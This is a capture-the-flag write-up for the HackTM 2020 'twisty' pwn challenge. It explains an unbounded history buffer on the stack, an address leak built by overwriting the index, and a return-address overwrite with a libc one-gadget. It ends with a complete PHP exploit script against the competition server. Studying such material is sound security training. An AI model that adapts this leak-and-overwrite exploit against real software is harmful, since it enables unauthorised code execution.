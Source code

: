 # twisty - HackTM 2020 Quals
## Introduction

twisty is a pwn task.

It is a C implementation of the puzzle from the `shifty` task. This
implementation has a different notation for moves, and keeps track of the
player's history. The player can undo their moves.


## Vulnerability

The vulnerability is straightforward: the history lays on the stack, but there
is no bound check on it.

A player can underflow the history buffer by sending undo requests. This will
result in them overwriting the board of the game.

A player can overflow the history buffer by sending 4096 moves. This will
overwrite the number of move in the history.

The stack is arranged like this:
```
uint8_t  board[0x10];
uint8_t  history[2048];
uint32_t index;
```

Every move is coded on a nibble (4 bits) according to the following look-up
table:
```
c0u: 0x00
c1u: 0x01
c2u: 0x02
c3u: 0x03
c0d: 0x04
c1d: 0x05
c2d: 0x06
c3d: 0x07
r0r: 0x08
r1r: 0x09
r2r: 0x0a
r3r: 0x0b
r0l: 0x0c
r1l: 0x0d
r2l: 0x0e
r3l: 0x0f
```


## Leak

By overwriting the `index` variable, and showing a list of moves, it is possible
to leak variables on the stack. This works by making the program think there are
more moves in the history than the current amount.

Among the variables are:
* The canary (offset 0x10)
* The entry point (offset 0x30)
* The return address of `__libc_start_main` (offset 0x50)

Only the libc address is required to exploit this binary.

The leak is achieved by filling the history with 4096 moves, and partially
overwriting the `index` variable to `0x000010b0` (`r3r`)


## Exploitation

Exploitation is similar to the leak, except that the return address of `main` is
rewritten after being read.

This can be done by "rewinding" the pointer right before the address with undo,
and sending carefully selected move to change the return address to a value
controlled by the attacker.

The one-gadget at `libc + 0x0004526a` has been selected for this task. It
requires `[rsp + 0x30]` to be NULL. This can be achieved by sending enough `c0u`
moves to zero out the next values on the stack.

The return address is called when the puzzle is fully solved. Solving the
puzzle is out of the scope of this writeup. The method to solve it is explained
in a different writeup.

**Flag**: `HackTM{0h_boY_thi$_5P!nniNG's_gonn@_m4k3_Me_D!zzY}`


## Appendices
### pwn.php
```php
#!/usr/bin/php
<?php // vim: filetype=php
require_once "/home/user/ctf/tools/pwn/phplib/hexdump.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Process.php";
require_once "/home/user/ctf/tools/pwn/phplib/tubes/Socket.php";

const HOST = "138.68.67.161";
const PORT = 20007;

function cube(Tube $t)
{
	$cube = "";
	for($i = 0; $i < 4; $i++)
		$cube .= $t->readLine();
	$t->expect("> ");

	return $cube;
}

function leak(Tube $t)
{
	static $LUT = [
		"c0u" => 0x00, "c1u" => 0x01, "c2u" => 0x02, "c3u" => 0x03,
		"c0d" => 0x04, "c1d" => 0x05, "c2d" => 0x06, "c3d" => 0x07,
		"r0r" => 0x08, "r1r" => 0x09, "r2r" => 0x0a, "r3r" => 0x0b,
		"r0l" => 0x0c, "r1l" => 0x0d, "r2l" => 0x0e, "r3l" => 0x0f,
	];

	cube($t);
	$t->write("l");

	$line = trim($t->readLine());
	$leak = explode(" ", $line);
	$leak = array_slice($leak, 4096);

	/* Apply the LUT */
	$ret = $leak;
	for($i = 0; $i < sizeof($ret); $i++)
		$ret[$i] = $LUT[$ret[$i]];

	return $ret;
}

function leak2str($leak)
{
	$ret = "";
	for($i = 0; $i < sizeof($leak); $i += 2) {
		$low  = $leak[$i + 1] ?? 0;
		$high = $leak[$i]     ?? 0;

		$ret .= chr(($high << 4) | $low);
	}

	return $ret;
}

function str2move($str)
{
	static $LUT = [
		"c0u", "c1u", "c2u", "c3u",
		"c0d", "c1d", "c2d", "c3d",
		"r0r", "r1r", "r2r", "r3r",
		"r0l", "r1l", "r2l", "r3l",
	];

	$ret = [];
	for($i = 0; $i < strlen($str); $i++) {
		$byte  = ord($str[$i]);
		$ret[] = $LUT[$byte >> 4];
		$ret[] = $LUT[$byte & 0x0F];
	}

	return $ret;
}

printf("[*] Creating process\n");
$time = microtime(true);
$t = new Socket(HOST, PORT);

$t->expectLine("Welcome to my game!");
$t->expectLine("Your job is to get the \"rubik's square\" to this configuration:");
$t->expectLine("");
$t->expectLine("ABCD");
$t->expectLine("EFGH");
$t->expectLine("IJKL");
$t->expectLine("MNOP");
$t->expectLine("");
$t->expectLine("Good luck!");
$t->expectLine("");
$t->expectLine("");

printf("[+] Done in %f seconds\n", microtime(true) - $time);
printf("\n");

printf("[*] Fill history buffer\n");
cube($t);
$t->write(str_repeat("r0r", 4096)); // 8888888

for($i = 0; $i < 4096 - 1; $i++)
	cube($t);

// 00001000
printf("[*] Leak data\n");
cube($t); $t->write("r3r"); // 0x000010b0 + 1

$leak   = leak2str(leak($t));
printf("%s\n", hexdump($leak));

$canary = substr($leak, 0x10, 8);
$base   = unpack("Q", substr($leak, 0x30, 8))[1] - 0xc00;
$libc   = unpack("Q", substr($leak, 0x50, 8))[1] - 0x20830;

printf("[+] Canary: %s\n", bin2hex($canary));
printf("[+] Base: 0x%016X\n", $base);
printf("[+] libc: 0x%016X\n", $libc);

printf("[*] Overwrite return\n");
for($i = 0; $i < 0x11; $i++) {
	cube($t);
	$t->write("u");
}

$one_gadget = $libc + 0x0004526a; // rsp + 0x30 == 0
$t->write(implode("", str2move(pack("Q", $one_gadget))));
for($i = 0; $i < 16; $i++)
	cube($t);

printf("[*] Grooming stack\n");
$t->write(implode("", str2move(str_repeat("\x00", 0x38))));
for($i = 0; $i < 2 * 0x38; $i++)
	cube($t);

solve:
printf("[*] Solving challenge\n");
$cube = cube($t);

$code = "[";
for($i = 0; $i < 16; $i++) {
	if($i % 4 === 0)
		$code .= "[";

	$code .= sprintf("%d, ", ord($cube[$i]) - 0x41);

	if($i % 4 === 3)
		$code .= "],";
}
$code .= "]";

$cmd = sprintf("echo %s | python2 ./solve.py", escapeshellarg($code));
$ret = shell_exec($cmd);
$t->write($ret);

$t->pipe();
```
